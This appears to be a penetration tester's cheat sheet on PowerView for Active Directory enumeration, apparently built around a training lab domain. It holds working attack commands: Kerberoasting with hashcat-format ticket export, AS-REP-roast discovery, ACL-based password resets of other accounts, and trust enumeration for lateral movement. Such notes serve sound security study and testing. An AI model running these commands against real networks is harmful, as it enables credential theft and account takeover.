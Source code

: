 ==Powerview/SharpView== [Hacktricks](https://book.hacktricks.wiki/en/windows-hardening/basic-powershell-for-pentesters/powerview.html?highlight=powerview#powerviewsharpview)

PowerView is a powerful suite of PowerShell tools for Active Directory enumeration and compromise.

## Setup:
#### Install:
1. ```Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "PowerView.ps1"```
2. `Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy RemoteSigned` ==Adjust execution policy so you can run the command

#### Import: So you can run it
```powershell
Terminal>. .\PowerView.ps1
```


| **Command**                         | **Description**                                                                            |
| ----------------------------------- | ------------------------------------------------------------------------------------------ |
| `Export-PowerViewCSV`               | Append results to a CSV file                                                               |
| `ConvertTo-SID`                     | Convert a User or group name to its SID value                                              |
| `Get-DomainSPNTicket`               | Requests the Kerberos ticket for a specified Service Principal Name (SPN) account          |
| **Domain/LDAP Functions:**          |                                                                                            |
| `Get-Domain`                        | Will return the AD object for the current (or specified) domain                            |
| ==`Get-DomainController`==          | Return a list of the Domain Controllers for the specified domain                           |
| ==`Get-DomainUser`==                | Will return all users or specific user objects in AD                                       |
| `Get-DomainComputer`                | Will return all computers or specific computer objects in AD                               |
| `Get-DomainGroup`                   | Will return all groups or specific group objects in AD                                     |
| `Get-DomainOU`                      | Search for all or specific OU objects in AD                                                |
| `Find-InterestingDomainAcl`         | Finds object ACLs in the domain with modification rights set to non-built in objects       |
| `Get-DomainGroupMember`             | Will return the members of a specific domain group                                         |
| `Get-DomainFileServer`              | Returns a list of servers likely functioning as file servers                               |
| `Get-DomainDFSShare`                | Returns a list of all distributed file systems for the current (or specified) domain       |
| `Get-DomainObjectACL`               | Get the ACL of an object                                                                   |
| **GPO Functions:**                  |                                                                                            |
| `Get-DomainGPO`                     | Will return all GPOs or specific GPO objects in AD                                         |
| `Get-DomainPolicy`                  | Returns the default domain policy or the domain controller policy for the current domain   |
| **Computer Enumeration Functions:** |                                                                                            |
| `Get-NetLocalGroup`                 | Enumerates local groups on the local or a remote machine                                   |
| `Get-NetLocalGroupMember`           | Enumerates members of a specific local group                                               |
| `Get-NetShare`                      | Returns open shares on the local (or a remote) machine                                     |
| `Get-NetSession`                    | Will return session information for the local (or a remote) machine                        |
| `Test-AdminAccess`                  | Tests if the current user has administrative access to the local (or a remote) machine     |
| **Threaded 'Meta'-Functions:**      |                                                                                            |
| `Find-DomainUserLocation`           | Finds machines where specific users are logged in                                          |
| `Find-DomainShare`                  | Finds reachable shares on domain machines                                                  |
| `Find-InterestingDomainShareFile`   | Searches for files matching specific criteria on readable shares in the domain             |
| `Find-LocalAdminAccess`             | Find machines on the local domain where the current user has local administrator access    |
| **Domain Trust Functions:**         |                                                                                            |
| `Get-DomainTrust`                   | Returns domain trusts for the current domain or a specified domain                         |
| `Get-ForestTrust`                   | Returns all forest trusts for the current forest or a specified forest                     |
| `Get-DomainForeignUser`             | Enumerates users who are in groups outside of the user's domain                            |
| `Get-DomainForeignGroupMember`      | Enumerates groups with users outside of the group's domain and returns each foreign member |
| `Get-DomainTrustMapping`            | Will enumerate all trusts for the current domain and any others seen.                      |

```powershell
Get-DomainUser -Identity mmorgan -Domain inlanefreight.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset,lastlogontimestamp,accountexpires,admincount,userprincipalname,serviceprincipalname,useraccountcontrol # Enumerate user information

Get-DomainGroupMember -Identity <groupname> -Recurse # Get all members of a group

Get-DomainTrustMapping # Enumerate domain trusts

Test-AdminAccess -ComputerName <computername>

1. Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName # Get Kerberoastable users (Service Accts with SPN)

2. Get-DomainUser -Identity <user> | Get-DomainSPNTicket       -Format hashcat # After finding a kerberoastable user, request their ticket in hashcat format

3. Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
# Request all users and export tickets to a file in hashcat format

Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}
# Find users that have reversable encryption enabled
```



# Access Control Lists
```powershell

$sid = Convert-NameToSid <user> # Get SID from username
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq <sid> } # Get ACL of user via sid

$guid= <GUID> 
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControlAccessRight'} -Properties * |Select Name,DisplayName,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl # Get object from GUID

Get-DomainObjectACL -ResolveGUIDs -Identity <identity of interest or wildcard> | ? {$_.SecurityIdentifier -eq $sid} # Combine previous steps, resolve GUID in command

foreach($line in [System.IO.File]::ReadLines(<valid_users_file>)) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match '<domain>\\<user>'}} # List powers we have as the specified user

Get-DomainGroup -Identity "Help Desk Level 1" | select memberof
# Find the groups another group is a part of (Does the group have any interesting inheritance from other more privileged groups?)

Set-DomainUserPassword -Identity <target username> -AccountPassword <new pscredential object> -Credential <user with privileges pscredential object> -Verbose # Reset another users' password using our ACL powers

Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
# Find users with Powerview who are vulnerable to ASRepRoasting

```


# Domain Trusts [[netdom]]
```powershell

Get-DomainTrust
# Is there another subdomain or forest that we can hack into

Get-DomainTrustMapping

Get-DomainUser -Domain LOGISTICS.INLANEFREIGHT.LOCAL | select SamAccountName
# Once you have enumerated trusts, look at all users in the child domain

```
PowerView is now maintained by BC-Security, who have taken over the Powershell Empire project and its GUI Starkiller. Additionally, another fork exists written in C# under the name [[SharpView]].